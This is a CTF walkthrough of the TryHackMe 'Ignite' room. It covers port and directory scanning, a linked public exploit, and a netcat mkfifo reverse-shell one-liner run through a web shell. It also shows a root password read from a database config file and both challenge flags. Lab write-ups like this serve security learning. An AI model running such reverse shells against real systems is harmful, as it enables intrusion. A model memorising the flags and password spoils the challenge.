





## Challenge Name: THM_Ignite

Challenge Description:
A new start-up has a few issues with their web server.

Artifact Files:

### Approach
## Recon
Using `rustscan`  to scan port on target machine. Those open ports are 80.

I use ` dirsearch <IP>' to find hidden url of the website have path /assets, robots.txt,

 and we see the version of that app using expoit in link below

[exploit_link](https://www.exploit-db.com/exploits/50477)

Acces the webshell and using reverse shell escalation using this `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 1234 >/tmp/f` to the web shell

**1 What is the user.txt flag? **

We simply  just `cat /home/www-data/flag.txt` and get the flag1 `6470e394cbf6dab6a91682cc8585059b`

**2 What is the root.txt flag? **
Acces fuel/application/config/database.php in webshell folder base on the main page of that web to get root password is mememe

We have to upgrade reverse shell using `python -c 'import pty;pty.spawn("/bin/bash")'; #spawn a python psuedo-shell` to change user and use `cat /root/root.txt` to get the flag `b9bbcb33e11b80be759c4e844862482d `

